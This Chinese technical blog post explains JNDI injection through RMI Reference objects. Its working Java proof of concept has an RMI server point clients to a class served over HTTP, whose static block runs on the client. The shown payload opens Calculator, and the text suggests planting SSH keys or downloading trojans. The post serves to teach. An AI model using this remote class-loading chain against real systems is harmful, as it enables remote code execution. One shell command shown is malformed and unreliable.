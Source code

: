 ```yaml
---
order: 2
title: 2 JDNI注入：RMI Reference注入问题
tag:
  - Java
  - JNDI
  - RMI
category:
  - Java
  - JNDI
date: 2021-12-16 19:04:00
keywords:
  - Java
  - JNDI
  - RMI
  - 注入
---
```


前面一篇介绍了基础的RMI的使用case [JDNI注入：RMI基本知识点介绍 - 一灰灰Blog](https://blog.hhui.top/hexblog/2021/12/13/211213-JDNI%E6%B3%A8%E5%85%A5%EF%BC%9ARMI%E5%9F%BA%E6%9C%AC%E7%9F%A5%E8%AF%86%E7%82%B9%E4%BB%8B%E7%BB%8D/)，其中有说到客户端通过rmi访问server时，表现和我们常见的rpc也一致，客户端拿到代理执行的方法，也是在远程服务端执行的，怎么就存在注入问题呢?

接下来我们再来看一个知识点，RMI + Reference，利用反序列化来实现注入

<!-- more -->

### 1. Reference服务端使用姿势

区别于前面一篇rmi提供的远程接口访问方式，这里借助Refernce来实现，当客户单连接请求时，返回一个Class，当客户端拿到这个class并实例化时，实现我们预期的注入

服务器的实现与前面的大体相同，通过Registry起一个rmi服务，区别在于将之前的注册一个服务类改成注册一个Reference，如下

```java
public static void main(String[] args) throws Exception {
    Registry registry = LocateRegistry.createRegistry(8181);
    
    Reference reference = new Reference("Inject", "Inject", "http://127.0.0.1:9999/");
    ReferenceWrapper wrapper = new ReferenceWrapper(reference);
    registry.rebind("inject", wrapper);
    
    System.out.println("服务已启动");
    Thread.currentThread().join();
}
```

注意上面的Reference的定义，三个参数

- className：远程加载时所使用的类名；
- classFactory：加载的class中需要实例化类的名称；
- classFactoryLocation：远程加载类的地址，提供classes数据的地址可以是file/ftp/http等协议；

上面表示的是当客户端连接到这个rmi发起请求之后，会尝试从 `http://127.0.0.1:9999/Inject.class` 获取并加载class文件

接下来写一个简单的Inject类，在静态块中可以执行任何你想执行的代码

```java
public class Inject {
    static  {
        System.out.println("hello world");
    }
}
```

启动一个简单的python服务器，这样可以直接通过网络加载这个class文件

```bash
python3 http.server -m 9999
```

这样一个支持代码注入的rmi服务器就搭建完成了；


### 2. 客户端实测

接下来看下客户单的访问姿势

```java
public static void injectTest() throws Exception {
    // 使用JDNI在命名服务中发布引用
    Hashtable env = new Hashtable();
    env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
    env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:8181");
    InitialContext context = new InitialContext(env);
    Object obj = context.lookup("rmi://127.0.0.1:8181/inject");
    System.out.println(obj);
}
```

当jdk版本较高时，会发现有下面这种提示，表示默认不允许读取远程的class文件

```
Exception in thread "main" javax.naming.NamingException [Root exception is java.lang.ClassCastException: Inject cannot be cast to javax.naming.spi.ObjectFactory]
	at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:507)
	at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:138)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
```

我们先模拟一下注入的case，所以先将这个开关开上，直接在启动中添加下面这一行配置

```bash
-Dcom.sun.jndi.rmi.object.trustURLCodebase=true
```

接下来看一下执行结果

![](/hexblog/imgs/211216/00.jpg)

重点关注上面输出的`hello world`，这个输出实际上是在Inject类的静态方法中输出的，在客户端被执行了；

接下来我们模拟一下，直接唤起客户单本地应用的case，在Inject类中，实现一个打开计算器的功能（可以借助 Runtime）

```java
public class Inject {
  static  {
    try {
      // mac 电脑用下面这个命令
      Runtime.getRuntime().exec("open -n /Applications/Calculator.app");
      // win 电脑用下面这个
      // Runtime.getRuntime().exec("calc")
    } catch(Exception e) {}
  }
}
```

接下来我们再来执行一下看看会发生什么，计算器是否会如期被唤起

![a.gif](/hexblog/imgs/211216/01.gif)


看到上面这个的小伙伴可能会有疑问，不过是打开我的计算器，也没啥了不起的影响，但是请注意，上面这个Inject的静态类可以任由我们自己发挥

- 如果你的客户端是linux，那么直接在`~/.ssh/authorized_keys`中写入黑客的公钥，这样就可以直接登录服务器
- 直接下载木马、病毒在本机执行
- ....

所以上面这个问题还是相当可怕的，幸好的是在Oracle JDK11.0.1, 8u191, 7u201, 6u211及之后的版本，`trustURLCodebase`这个配置默认是false，一般也不会有人特意去开启这个配置，所以问题不大

那么真的是问题不大么？且待后续博文
